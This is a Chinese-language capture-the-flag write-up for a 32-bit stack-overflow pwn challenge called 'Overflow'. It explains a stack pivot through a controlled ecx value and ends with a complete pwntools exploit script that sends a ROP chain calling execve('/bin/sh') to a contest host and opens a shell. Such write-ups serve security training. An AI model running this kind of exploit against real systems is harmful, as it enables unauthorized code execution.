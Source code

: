 # Overflow

32位的栈溢出，找到offset即可，看不懂汇编的逻辑的话就在gdb里面慢慢调

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=YzZkM2ZhZDg5YTA2ODczNjc1YjMwY2EzODVjNDY5MzdfQlJDZVdFdmRLYVozc092eHhiY1k5S1BvYzJvclVVNndfVG9rZW46QU9oMmJ4ek9tb3E5REF4YzdJdWNXcWVqbkxlXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

这里可以看到`gets`函数是向栈上读入数据的

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=ZWYyYzJmNDRkMGFmNGQ0YzllMWJiZTIyYTkyNDlkZjlfdno1cGE4M1RmdmxJdXFLV2FwQkZMajhtWTNaWTB6UFpfVG9rZW46SjBzYmJtc25kb09CRTZ4OVRveWNNcms5bkpmXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

读入完数据后将`esp`迁移到`ebp-8`的位置，而这个位置我们是可以覆盖到的，然后开始将栈上的数据给`pop`出来给寄存器，接着将`esp`转移到`ecx-4`的位置，也就是说我们只要控制了`ecx`的位置就可以做到劫持程序

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=MzExYzUzY2VkODk5MDY1NTdlZjI4Mjg4MjJhMzYzMDRfTExRMWVKMGl5ZTRNd0xRNDd4RTJuckl2dmhwcllaNGpfVG9rZW46SDFDNmIzd09hb3E4UkN4Q2JUUmNZT1A1blNmXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

这里也可以看到我们将`ecx`设置为`0x80ef32c`，其实也就是第一步`read`函数读入的位置，第一个`read`函数我们构造了一段`ROP`链来获取`shell`，这里`esp`迁移过来后就可以开始执行我们的`ROP`链来获取shell

```Python
from pwn import *

context(arch="i386", os="linux", log_level="debug")
local = False
elf_path = "./overflow"
libc_path = ""
if local:
    p = process(elf_path)
else:
    ip, port = "node2.tgctf.woooo.tech:30712".split(":")
    p = remote(ip, int(port))

def debug():
    if local:
        gdb.attach(p, 'b *0x80498b8')

name = 0x80ef320
syscall = 0x8064acd
pop_eax = 0x80b470a
pop_ebx = 0x8049022
pop_ecx = 0x08049802
pop_edx = 0x08060bd1
int_80 = 0x8073d6f
p.recvuntil(b'name?\n')
payload = b'/bin/sh\x00'
payload += p32(pop_eax) + p32(0xb)
payload += p32(pop_ebx) + p32(name)
payload += p32(pop_ecx) + p32(0)
payload += p32(pop_edx) + p32(0)
payload += p32(int_80)
debug()
p.send(payload)
payload = b'a' * (0x28) + p32(name + 0x8) + b'a' * (0xc0 - 0x28 + 0x4) + p32(name + 0x8 + 0x4)
# payload += p32(pop_ebx) + p32(name) + p32(pop_eax) + p32(0xb) + p32(syscall)
p.recvuntil(b'right?\n')
p.sendline(payload)

p.interactive()
```
